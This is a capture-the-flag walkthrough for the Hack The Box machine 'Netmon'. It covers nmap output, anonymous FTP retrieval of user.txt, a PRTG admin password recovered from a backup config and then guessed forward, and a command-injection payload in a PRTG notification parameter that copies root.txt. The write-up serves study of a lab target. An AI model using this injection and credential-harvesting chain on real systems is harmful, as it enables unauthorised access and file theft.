

# Netmon

## User

### Scan
The first thing to do is scan the box. The output of `nmap -sC -sV 10.10.10.152` is:

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-12 16:45 EDT
Nmap scan report for 10.10.10.152
Host is up (0.17s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-03-12 16:46:27
|_  start_date: 2019-03-12 16:12:17

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.50 seconds
```

### FTP Anonymous
This box has FTP running and allows anonymous connections! This means that if we're lucky, we can connect to the server and get whatever we want. Most of the time anonymous connections are heavily restricted, but it doesn't seem like that is the case here. My Kali install did not have `ftp` by default, so I installed it with `apt install ftp`. Now we can see if `user.txt` is available to an anonymous ftp user:
```
root@kali:~/HTB/Machines/Netmon# ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
03-13-19  05:55PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users/Public
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-13-19  05:55PM                   90 bla.txt
03-13-19  06:02PM                   90 bla2.txt
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
03-13-19  06:06PM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
03-13-19  05:55PM                   90 tester.txt
02-03-19  12:35AM                   33 user.txt
07-16-16  09:18AM       <DIR>          Videos
ge226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.16 secs (0.2001 kB/s)
ftp> exit
221 Goodbye.
```

If everything worked as expected then `cat user.txt` should give us the hash: `dd58ce67b49e15105e88096c8d9255a5`.

## Root

### Finding PRTG Network Monitor Credentials
Unfortunately for us, anonymous FTP does not allow us to access the root folder. We're going to have to find a different way in. Because the name of the box is 'Netmon', I'm going to assume that we need to exploit Netmon in some way. Looking up Netmon exploits gives us a number of interesting exploits that we can begin enumerating. 

First up, the default credentials should be `admin:netmon`. However, these credentials don't work. Darn. We could try brute-forcing but that might impact other people connecting to the machine. Maybe there's a less intrusive exploit that we can find out in the wild. 

Reddit is a good source for finding popular exploits that made a name for themselves in the netsec community. [This post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) gives us a very interesting lead. FTP may give us access to those configuration files in `ProgramData/Paessler/PRTG Network Monitor/`. Navigating to this directory gives us a few different `PRTG Configuration` files that we can check out. `get` all of them and then we can start searching for credentials. 

These are really big files, so let's try using some keywords to see if we can find anything. My process is to open each file, quickly skim, and then do some searches on words like 'password' and 'cred'. In `PRTG Configuration.old.bak` I found the following credentials:
```
<dbpassword>
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
``` 
You may notice that these credentials don't work out of the box. These are old credentials from a backup, so if we think about how people update passwords we might be able to deduce the updated password. The most obvious update would be `PrTg@dmin2019` because it's 2019 now. Trying this new password works and gets us into the site!

### Exploting PRTG Network Monitor
Administrative web applications are usually a gold mine for exploits to get root-level access on a system. Let's start by googling vulnerabilities and see what comes up. Some require more access than we currently have, but [this blog](https://www.codewatch.org/blog/?p=453) looks promising. His setup looks almost exactly like ours and we should be able to do all of the steps in his POC and maybe we'll modify it slightly to better suit our needs:

#### Create a Notification
Here we're going to create a notification that will execute a script everytime the notification is called. The parameter section is where the script will be injected that copies `root.txt` into a place where we can access it using FTP.
1. Go to Setup > Account Settings > Notifications > Add New Notification
2. Pick a unique name, Toggle the 'Execute Program' button, and delete any username or password fields that may have autofilled
3. Choose the 'Demo exe notification - outfile.ps1' because we want to inject a PowerShell command
4. In the parameter section type `test.txt; copy c:\Users\Administrator\Desktop\root.txt c:\Users\Public\root.txt`

#### Run the Notification
For the notification we just created to be called we need to set up a trigger. There are many options for this, but here is just one:
1. Go to Sensors > All
2. Choose any sensor that is currently down (like PING 8.8.8.8)
3. Click on the bell icon and select 'Add State Trigger'
4. Configure the state trigger like so:


### Retrieving our File
If everything is working correctly then our `root.txt` file should be in `C:\Users\Public\root.txt`. Run `get root.txt` to download and see the hash: `3018977fb944bf1878f75b879fba67cc`

### Troubleshooting
To tell if the notification has been run or not, check the log entries. Some of the issues I ran into were autofilled username/password in the notification creation menu and typos in the paths. 
